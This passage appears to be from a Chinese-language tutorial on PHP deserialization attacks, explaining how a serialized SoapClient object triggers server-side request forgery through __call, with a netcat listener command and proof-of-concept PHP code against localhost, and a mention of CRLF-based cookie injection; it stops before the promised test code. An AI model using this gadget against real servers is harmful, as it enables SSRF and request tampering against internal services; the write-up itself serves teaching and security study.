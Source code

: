 该类的构造函数如下：

```
public SoapClient :: SoapClient(mixed $wsdl [，array $options ])
```

- 第一个参数是用来指明是否是wsdl模式，将该值设为null则表示非wsdl模式。
- 第二个参数为一个数组，如果在wsdl模式下，此参数可选；如果在非wsdl模式下，则必须设置location和uri选项，其中location是要将请求发送到的SOAP服务器的URL，而uri 是SOAP服务的目标命名空间。

在我kali的2333端口开启一个监听

```
nc -lvp 2333
```

然后执行下面的php代码

```
<?php
$a = new SoapClient(null,array('location'=>'http://127.0.0.1:2333/aaa', 'uri'=>'test'));
$b = serialize($a);
echo $b;
$c = unserialize($b);
$c->a();    // 随便调用对象中不存在的方法, 触发__call方法进行ssrf
?>
```

![image-20210531165848764](images/6.png)



得到http包

不过这个SoapClient类的ssrf仅限于http和https的协议,但是如果存在CRLF漏洞的话我们就可以在其中插入cookie

测试代码如下
